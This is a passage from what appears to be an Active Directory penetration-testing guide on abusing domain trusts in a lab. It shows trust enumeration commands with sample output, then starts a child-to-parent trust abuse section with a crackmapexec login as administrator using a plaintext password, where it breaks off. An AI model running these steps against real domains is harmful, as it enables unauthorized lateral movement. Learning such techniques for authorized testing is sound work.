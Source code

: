 -   **Headquarter ↔ Backup**: One-way trust allowing Backup domain to replicate from Headquarter.
    
-   **Headquarter ↔ External Partner**: External forest trust with limited access.
    

### 1. Domain Trusts Primer

_Identify and understand the trust relationships in your environment._

#### Tools & Commands

-   **nltest**
    
    ```bat
    # List trusts for LAB domain
    nltest /domain_trusts
    
    ```
    
    _Expected Output Snippet:_
    
    ```text
    Trusted domain list for domain \"LAB\":
      PARENT.lab.local (FOREST)
      CHILD.lab.local  (TREE_ROOT)
    
    ```
    
-   **Get-ADTrust** (PowerShell)
    
    ```powershell
    Import-Module ActiveDirectory
    Get-ADTrust -Filter * | Format-Table Name,TrustType,Direction,ForestTransitive
    
    ```
    
    _Expected Output Snippet:_
    
    ```text
    Name        TrustType Direction ForestTransitive
    ----        --------- --------- ----------------
    PARENT      Forest    Outbound True
    CHILD       External  Inbound  False
    
    ```
    

----------

### 2. Child → Parent Trust Abuse (Linux & Windows)

_Exploit an outbound child-to-parent trust to authenticate in the parent domain._

#### Tools & Commands

-   **evil-winrm** (Windows) / **crackmapexec**
    
    ```bash
    # Linux example with CME
    cme smb CHILD.lab.local/administrator@PARENT.lab.local -p 'Password1!'
    